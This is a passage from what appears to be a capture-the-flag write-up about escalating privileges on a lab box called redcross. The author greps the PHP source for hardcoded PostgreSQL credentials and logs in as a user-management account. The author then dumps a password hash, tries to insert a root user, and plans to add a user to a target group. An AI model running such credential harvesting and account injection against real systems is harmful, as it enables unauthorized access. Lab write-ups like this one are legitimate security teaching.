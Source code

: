 
    www-data@redcross:~.md$ grep -r pg_connect .
    ./admin/pages/firewall.php:     $dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");
    ./admin/pages/users.php:        $dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixnss password=fios@ew023xnw");
    ./admin/pages/actions.php:      $dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");
    ./admin/pages/actions.php:      $dbconn = pg_connect("host=127.0.0.1 dbname=redcross user=www password=aXwrtUO9_aa&");
    ./admin/pages/actions.php:      $dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&");
    ./admin/pages/actions.php:      $dbconn = pg_connect("host=127.0.0.1 dbname=unix user=unixusrmgr password=dheu%7wjx8B&");



I'm interested in unixusrmgr because it can add users. I can connect
like this:



    www-data@redcross:/$ psql -h 127.0.0.1 -U unixusrmgr -p 5432 -d unix
    Password for user unixusrmgr: 
    psql (9.6.7)
    SSL connection (protocol: TLSv1.2, cipher: ECDHE-RSA-AES256-GCM-SHA384, bits: 256, compression: off)
    Type "help" for help.

    unix=>



The `passwd_table` has the following structure:



    unix=> select * from passwd_table;
     username  |               passwd               | uid  | gid  | gecos |    homedir     |   shell
    -----------+------------------------------------+------+------+-------+----------------+-----------
     tricia    | $1$WFsH/kvS$5gAjMYSvbpZFNu//uMPmp. | 2018 | 1001 |       | /var/jail/home | /bin/bash
    (1 row)



Additionally, different users for the database can add different parts.
For example, unixusrmgr can add users (as seen in the php code and I'll
show more times below), but can't set the user id:



    unix=> insert into passwd_table (username, passwd, uid, gid, homedir) values ('ro0xdft', '$1$wV7CPbj9$59kAklYgquXe5TuJYIT591', 0, 0, '/root');
    ERROR:  permission denied for relation passwd_table



#### Add User penel0xdf

I'll add a user with group id that matches penelope, following the model
from `actions.php`. I remember the group id is 1000 from `/etc/passwd`:
